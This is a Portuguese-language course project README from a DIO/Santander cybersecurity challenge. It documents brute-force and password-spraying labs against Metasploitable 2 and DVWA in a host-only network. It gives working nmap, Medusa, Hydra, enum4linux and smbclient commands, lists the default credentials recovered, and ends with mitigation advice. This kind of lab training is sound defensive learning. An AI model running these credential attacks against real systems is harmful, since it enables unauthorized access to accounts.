 # Protocolos-de-Autentica-o-Brute-force

Desafio Dio Santander

Projeto Prático – Cibersegurança 2025

Curso: Protocolos de Autenticação & Brute Force

Instrutora: Isadora Ferrão

Plataforma: DIO + Santander

Objetivo

Desenvolver, documentar e compartilhar um projeto prático utilizando Kali Linux e a ferramenta Medusa, em conjunto com ambientes vulneráveis (como Metasploitable 2 e DVWA), para simular cenários de ataques de força bruta e aplicar medidas de mitigação.

Etapas do Projeto

1. Configuração do Ambiente

•	Criação de duas máquinas virtuais (Kali Linux e Metasploitable 2) no VirtualBox.

•	Rede interna configurada em modo “host-only”.

2. Ataques Simulados

•	Força bruta em FTP.

•	Automação de tentativas em formulário web (DVWA).

•	Password spraying em SMB com enumeração de usuários.

3. Documentação dos Testes

•	Uso de wordlists simples.

•	Registro dos comandos utilizados.

•	Validação de acessos obtidos.

•	Recomendações de mitigação.

Conceitos Fundamentais

Protocolos de Autenticação

São métodos utilizados para validar a identidade de usuários ou serviços antes de conceder acesso. Exemplos:

•	HTTP Basic/Digest: simples, usado em aplicações web.

•	Form-based: autenticação via formulários HTML.

•	NTLM/SMB: protocolo legado da Microsoft.

•	Kerberos: baseado em tickets, usado em ambientes AD.

•	LDAP/AD Bind: autenticação em diretórios.

•	SSH: autenticação por senha ou chave pública.

•	RDP: acesso remoto a desktops Windows.

•	OAuth/OpenID Connect: autenticação moderna para APIs e web apps.

Tipos de Ataques de Força Bruta

•	Online brute-force: tentativa direta contra serviços ativos.

•	Offline brute-force: quebra de hashes localmente.

•	Credential stuffing: uso de credenciais vazadas.

•	Password spraying: teste de senhas comuns em múltiplos usuários.

•	Dictionary attacks: uso de listas de palavras com variações.

Ferramentas Utilizadas

•	Kali Linux: sistema operacional voltado para segurança da informação.

•	Metasploitable 2: VM Linux vulnerável para testes.

•	Medusa: ferramenta de brute-force rápida e paralela.

•	Hydra: ferramenta de brute-force para diversos serviços.

•	Ncrack: focada em autenticação de rede.

•	John the Ripper: quebra de senhas a partir de hashes.

•	WPScan: auditoria de segurança em sites WordPress.

•	Nmap: varredura de rede e detecção de serviços.

•	Enum4linux: enumeração de usuários e serviços SMB.

Execução dos Testes

Varredura de Rede com Nmap

nmap -sV -p 21,22,80,445,139 192.168.56.103

Resultado: portas FTP, SSH, HTTP e SMB abertas, todas com versões vulneráveis.

Ataque FTP com Medusa

medusa -h 192.168.56.103 -U users.txt -P pass.txt -M ftp -t 6 -f

Credenciais encontradas: msfadmin:msfadmin.

Teste de Login via Cliente FTP

ftp 192.168.56.103

Acesso confirmado com comandos como ls, get, put, etc.

Ataque a Formulário Web (DVWA)

Como o módulo http-m do Medusa não estava disponível, foi utilizado o Hydra:

hydra -L users.txt -P pass.txt 192.168.56.103 http-form-post "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed" -t 6

Credenciais encontradas: admin:password.

 Ataque SMB com Enumeração e Password Spraying

enum4linux -a 192.168.56.103 | tee enum_output.txt

Usuários identificados: msfadmin, root, postgre, usr, nservice.

Ataque com Medusa:

medusa -h 192.168.56.103 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50

Credenciais válidas: msfadmin:msfadmin.

Validação com smbclient:

smbclient -L //192.168.56.103 -U msfadmin

Acesso confirmado aos shares: print$, tmp, opt, ADMIN$, msfadmin.

Medidas de Mitigação

Autenticação

•	Implementar MFA/2FA.

•	Exigir senhas fortes e únicas.

•	Utilizar autenticação por chave pública (SSH).

Controle de Acesso

•	Limitar tentativas por IP/usuário.

•	Bloquear contas após múltiplas falhas.

•	Monitorar e alertar sobre tentativas suspeitas.

Hardening de Serviços

•	Atualizar softwares vulneráveis.

•	Aplicar patches de segurança.

•	Remover serviços desnecessários.

Proteção de Rede

•	Desabilitar SMBv1.

•	Usar FTPS/SFTP em vez de FTP.

•	Segmentar redes e configurar firewalls adequadamente.

 Conclusão

A segurança da informação vai muito além de antivírus e firewalls. É essencial considerar fatores humanos, políticas organizacionais e práticas de defesa proativas. O conhecimento técnico aliado à conscientização é a chave para ambientes mais seguros.
A segurança da informação vai muito além de antivírus e firewalls. É essencial considerar fatores humanos, políticas organizacionais e práticas de defesa proativas. O conhecimento técnico aliado à conscientização é a chave para ambientes mais seguros.

